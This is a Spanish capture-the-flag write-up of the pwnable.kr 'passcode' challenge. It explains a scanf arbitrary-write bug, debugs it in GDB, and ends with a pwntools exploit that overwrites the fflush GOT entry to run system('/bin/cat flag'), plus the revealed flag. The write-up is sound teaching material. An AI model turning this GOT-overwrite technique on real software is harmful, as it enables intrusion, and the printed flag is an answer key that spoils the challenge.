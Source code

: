 ```yaml
---
layout: post
title: pwnable.kr passcode - Arbitrary write y sobrescritura de GOT
author: c4rta
date: 2023-01-18
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
categories: [Explotacion binaria]
tags: [GOT overwrite, Arbitrary Write]
---
```

Tenemos un GOT overwrite donde a través de la escritura arbitraria, podemos sobreescribir la entrada .GOT de fflush() por la dirección de system(bin/cat flag) y leer la flag
{:.lead}

## Analisis del binario

### Funcion main

```c
int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Lo unico que hace es llamar a dos funciones: ```welcome``` y ```login``` e imprimer unos cuantos mensajes

### Funcion welcome

```c
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

Vemos que se declara un buffer de 100, basicamente esta funcion toma 100 caracteres los cuales los guarda en la variable ```name``` e imprime el mensaje ```Welcome``` y lo que tenga ```name```

### Funcion login

```c
void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

Después de eso tenemos la funcion ```login()``` que lee dos números enteros, luego los compara con dos constantes y, si coinciden obtenemos la bandera

Todo parece muy simple, pero si intentamos correrlo pasandole esos valores con los que se compara, veremos algo como esto:

```
passcode@pwnable:~$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta
Welcome c4rta!
enter passcode1 : 338150
Segmentation fault (core dumped)
```
Peto, pero como es que peto si parece que espera un tipo de dato int y encima el que le pasamos es igual a ```338150``` que es el primer valor con el que se compara.

Aqui una recomendacion es que si tiene el codigo fuente, lo vuelvan a compilar para ver si tiene algunos warnings y en este caso nos muestra eso:

```
passcode.c: In function ‘login’:
passcode.c:9:8: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    scanf("%d", passcode1);
    ^
```

Con esto nos podemos dar cuenta el input que se guarda en ```passcode1``` no se interpreta como un int, si no como una direccion, de hecho ahi nos dice que espera un ```int *```, esto deriva de un ```arbitrary write```, en la cual es la variable ```passcode1``` podemos poner lo que queramos

### Depurandolo con GDB

Aqui me ire directamente a la funcion ```login()``` para que puedan ver que las variables se tratan como direcciones (les recomiendo que lo pongan con sintaxis intel, la sintaxis at&t esta medio pedorra: ```set disassembly-flavor intel```)

Quiero destacar algo, generalmente en ensamblador para acceder a las varibles de una funcion se hace uso del ```EBP```, esto lo digo ya que podemos tener una idea de donde se encuentran nuestras variables, quiero resaltar esto:

![](/assets/img/passcode/1.png)

Puede ser que lo que esta en ```ebp-0x10``` sea la variable passcode asi que para corroborar eso pondre un breakpoint alli e ejecutare el programa:


Como se puede ver:

```
(gdb) x/xw $ebp-0x10
0xffefef58:	0xf7586cbb
```
La variable ```passcode1``` (ebp-0x10) esta apuntando a ```0xf7586cbb```, que es la direccion en la que esta escribiendo en ```scanf()``` 

Ademas podemos ver que en las comparaciones:

```
cmp    DWORD PTR [ebp-0x10],0x528e6
DWORD PTR [ebp-0xc],0xcc07c9
```

Esta comparando direcciones ```0x528e6``` y ```0xcc07c9``` no un valor, entonces el código intenta cargar la dirección de ```passcode1``` y ```passcode2``` que obviamente no existen. Esa es la razon por la que el programa peta


## Explotacion



Si sabemos que tenenemos una escritura arbitraria para poder sobrescribir el valor de passcode1, ¿Entonces como nos aprovechamos de esto?, pues debemos de aplicar otra tecnica llamada GOT overwrite

En el código de login() después de scanf lo que sigue después es fflush(stdin), esto puede ser usado para realizar un "salto" hacía una dirección. Si te das cuenta, cuando vemos el código te la función fflush(), está usando la instrucción jmp para saltar a ```0x804a004``` , además fflush está referenciada por .PLT y eso lo podemos ver en ```fflush@PLT``` así que fflush() debe de tener una entrada en .GOT a la que va a saltar, ademas, gracias a qué scanf() está antes que fflush(), nosotros podemos controlar ```0x804a004```, la idea es:

- Mandar los suficientes bytes para llenar el buffer

- Sobreescribir passcode1 por 0x804a004, y eso nos permitirá una escritura arbitraria en fflush@GOT

- Y a través de la escritura arbitraria, podemos sobreescribir la entrada .GOT de fflush() por la dirección de system(bin/cat flag)



### Desplazamiento para passcode1

Lo primero que hay que obtener es el desplazamiento para llegar a ```passcode1```, y es bien facil, simplemente podemos hacer una resta de la ubicacion de la variable ```name``` la que recibe nuestro primer input, con la ubicacion de la variable ```passcode``` y la variable ```name``` esta ```0x70``` por debajo de ```EBP```, deja te muesto.

En la funcion ```welcome()``` hay una linea como esta:

```0x0804862f <+38>:	lea    edx,[ebp-0x70]```

La cual usa el registro ```EDX``` este registro es usado para menejar las operaciones I/0, asi que pondre un breakpoint donde se recibe nuestro input

```b *0x08048643```

Ahora si yo muestro lo que tiene ```ebp-0x70``` veremos algo como esto:

```
(gdb) r
Starting program: /home/passcode/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : c4rta --> Mi input

Breakpoint 1, 0x08048643 in welcome ()
(gdb) x/1s $ebp-0x70
0xffa1a2c8:	"c4rta" --> El valor que tiene
(gdb) 
```

Ahora esta comprobado que en ```ebp-0x70``` esta la variable ```name```.

Asi que para sacar el desplazamiento para llegar a ```passcode1``` hacemos ```0x70 - 0x10```, y esto nos da ```96``` es decimal

### Direccion de fflush

Primero hay que mostrar el contenido de la funcion: 

```
(gdb) disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    *0x804a004
   0x08048436 <+6>:	push   $0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

Vemos que la entrada de ```fflush``` esta con la direccion ```0x804a004``` y esta direccion la ocupamos ya que sobrescribiremos ```fflush``` para que llame a ```/bin/cat flag``` que esta en la direccion ```0x080485e3```

### Crafteando el exploit

```py
from pwn import *

context.update(arch="i386", os="linux")
p = process("./passcode")

payload = b'A' * 96             # desplazamiento para passcode
payload += p32(0x0804a004)      # direccion de la entrada GOT de fflush
payload += str.encode(str(0x080485e3))  # direccion de bin/cat flag

print(p.recvline())
p.sendline(payload)
print(p.recvall())
```
Y nos da la flag la cual es: ```Sorry mom.. I got confused about scanf usage :(```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/passcode/waifu.gif)